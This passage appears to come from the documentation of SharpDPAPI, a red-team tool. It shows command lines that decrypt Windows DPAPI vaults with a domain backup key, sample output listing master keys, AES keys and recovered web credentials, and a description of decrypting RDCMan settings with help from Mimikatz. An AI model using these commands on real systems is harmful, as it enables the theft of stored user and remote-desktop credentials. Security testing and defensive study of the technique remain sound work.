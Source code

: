  LastWritten : 10/12/2018 1242 PM
 FriendlyName : Internet Explorer
 Identity : admin
 Resource : https/10.0.0.1/
 Authenticator : Password!

 ...(snip)...


Using a domain DPAPI backup key with a folder specified (i.e. "offline" triage):

 C:\Temp>SharpDPAPI.exe vaults /target\Temp\test\ /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: User DPAPI Vault Triage

 [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

 [*] User master key cache:

 {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
 ...(snip)...

 [*] Target Vault Folder: C:\Temp\test\


 [*] Triaging Vault folder: C:\Temp\test\

 VaultID : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
 Name : Web Credentials
 guidMasterKey : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
 size : 240
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32772/26115
 description :
 aes128 key : EDB42294C0721F2F1638A40F0CD67CD8
 aes256 key : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

 LastWritten : 3/20/2019 650 AM
 FriendlyName : Internet Explorer
 Identity : account
 Resource : http/www.abc.com/
 Authenticator : password


#### rdg

The **rdg** command will search for RDCMan.settings files for the current user (or if elevated, all users) and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.
